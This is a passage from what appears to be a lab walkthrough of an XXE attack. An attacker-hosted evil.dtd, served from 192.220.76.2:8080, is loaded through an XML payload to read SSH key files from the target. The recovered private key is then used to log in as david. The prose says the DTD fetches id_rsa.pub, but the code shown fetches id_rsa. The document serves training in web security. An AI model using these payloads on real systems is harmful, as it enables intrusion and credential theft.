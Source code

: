 

Check the contents of the fixed_id_rsa file:

Command:
```
cat fixed_id_rsa
```


The well-formatted private SSH key has been placed in a file.

Step 11: Gain SSH access on the target machine.

We have the private SSH key but don't yet know the user to whom it belongs.

To use the SSH keys for login, we have to find out the corresponding user name. For that, we will be using the public SSH keys. This file could contain the email of the user or the account name followed by the hostname. In either case, we will find the user name.

Modify the evil.dtd file to fetch the contents of the id_rsa.pub file:
```xml
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "http://localhost:8888/.ssh/id_rsa">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```


Start a Python-based HTTP server on port 8080:

Command:
```
python3 -m http.server 8080
```


Send the same XXE payload we sent in the last step:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM "http://192.220.76.2:8080/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```



The contents of the public SSH key were successfully retrieved.



The email id of the user is also revealed:
```
david@insecure-corp.com
```

Modify the permissions of the fixed_id_rsa file and SSH into the target machine:

Commands:
```bash
chmod 600 fixed_id_rsa
ssh -i fixed_id_rsa david@demo.ine.local
```
